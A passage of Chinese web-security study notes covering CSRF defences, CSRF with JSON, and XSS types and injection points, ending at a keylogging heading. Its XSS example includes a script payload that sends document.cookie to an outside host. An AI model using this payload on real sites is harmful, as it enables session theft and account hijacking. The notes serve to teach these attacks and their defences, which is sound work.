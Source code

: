     服务器每次随机生成一个动态 token 给客户端，客户端发送时携带 token 供认证。
2. 在后端通过 HTTP 中的 Refer 属性判断来源
3. 使用 POST 比 GET 安全点
4. 使用验证码等手段
5. Cookie Samesite属性
6. 双重 Cookie，客户端生成一个随机 cookie，并在发送请求时把 cookie 作为参数（如 GET 请求参数）一起发送至后端，后端对比 cookie 和请求参数中的 cookie 是否一致。CSRF 因为 SOP 获取不到 cookie，所以放在请求参数里的 cookie 和 随机生成的 cookie 不会匹配。但也可能会因为 XSS 攻击泄露 Cookie

#### CSRF JSON

如果后端设置了只接受 JSON 的 Content-Type，那么简单的表单 POST 是不行的，虽然 fetch API 可以设置 Content-Type，但是浏览器不允许，除非在后端设置 CORS（Access-Control-Allow-Origin, Access-Control-Allow-Header）

#### Token 可以存储在 Cookie 中吗？

可以，因为服务端读取 Token 不从 Cookie 中，而因为 SOP 原则，恶意攻击实际上无法获取到 Cookie 的 Token 内容。

### XSS

Cross-Site Script，在目标网站植入恶意脚本，窃取信息（cookie/session)，XSS 可以绕过一些 SOP。

#### 原理

浏览器解析到 `<script>` 标签时会自动执行其中的代码。形成的原因大部分在于没有做好输入过滤，因此被注入一些恶意攻击。

一般可以分为`非持久型`、`持久性`、`DOM型` XSS 攻击。

#### 分类

*   反射型（非持久）型 XSS

    反射型 XSS 指用户提交的数据**没有存储在数据库中**而是直接输出到页面。**一次提交只能执行一次**。
*   存储型 XSS

    将脚本注入到后台数据库中，使得**所有用户之后的每一次访问都会执行**。
*   DOM 型 XSS

    并不会和后端交互，重点是**他的输出位置在 DOM 上**

#### 注入点

* HTML 节点的内容或属性
* JS 代码
* 富文本

#### Example

**窃取 Cookie**

在输入框注入 `<script>alert(document.cookie)</script>`，可以获取 Cookie 值

可以把 Cookie 直接发送给后台服务器，如

```
<script>document.location = `https://somehost.com?cookie=${document.cookie}`</script>
```

**监听键盘输入**
